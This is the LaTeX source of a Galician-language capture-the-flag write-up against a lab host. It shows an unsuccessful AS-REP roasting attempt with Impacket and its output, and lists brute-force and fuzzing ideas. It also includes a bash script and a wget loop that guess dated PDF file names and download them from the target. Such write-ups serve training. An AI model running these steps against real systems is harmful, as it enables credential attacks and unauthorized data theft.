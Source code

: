 \documentclass[a4paper]{article}
\newcommand{\ipTarget}{10.10.10.248}
\begin{document}
Entón si, temos 2 usuarios kerberos e non temos contrasinais probamos o ASREPROASTAttack:
        \begin{lstlisting}[language=Bash, caption=Enumeración usuarios kerberos: ASREPROASTAttack]
$ GetNPUsers.py template.htb/ -no-pass -usersfile users-potenciais-kerberos.txt
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation
[-] User William.Lee doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jose.Williams doesn't have UF_DONT_REQUIRE_PREAUTH set
\end{lstlisting}
Pero non hai sorte.

\subsection{Alternativas}
Como co anterior non houbo sorte probamos outras opcións como as seguintes:
\begin{itemize}
        \item Cos usuarios testeados probar sesións sen autenticación para rpcclient
        \item Intentar buscar por forza bruta contrasinais para eses usuarios con crackmapexec
        \item Fuzzing: wfuzz, gobuster, dirbuster...
\end{itemize}

\subsection{Descargar pdfs}
Pero seguimos sen ter éxito, entón probamos a seguinte idea: Se en \textit{documents} existen 2 documentos con \textbf{\emph{data}-upload.pdf} existirán máis? Entón, xeramos un script para logo intentar descargar os arquivos:

        \begin{lstlisting}[language=Bash, caption=script Bash]
$ cat script.sh
for i in $(seq 2020 2022)
do
  for j in $(seq 1 12)
  do
    [ $j -le 9 ] && j=$(echo 0$j)
    for k in $(seq 1 31)
    do
      [ $k -le 9 ] && k=$(echo 0$k)
      echo $i-$j-$k
    done
  done
done | tee -a days.txt\end{lstlisting}


        \begin{lstlisting}[language=Bash, caption=Descargar documentos]
$ mkdir uploads;while read line
do
  wget http://¬\ipTarget¬/documents/${line}-upload.pdf && wget http://¬\ipTarget¬/documents/${line}-upload.pdf -O uploads/${line}-upload.pdf 
done < days.txt\end{lstlisting}
\end{document}
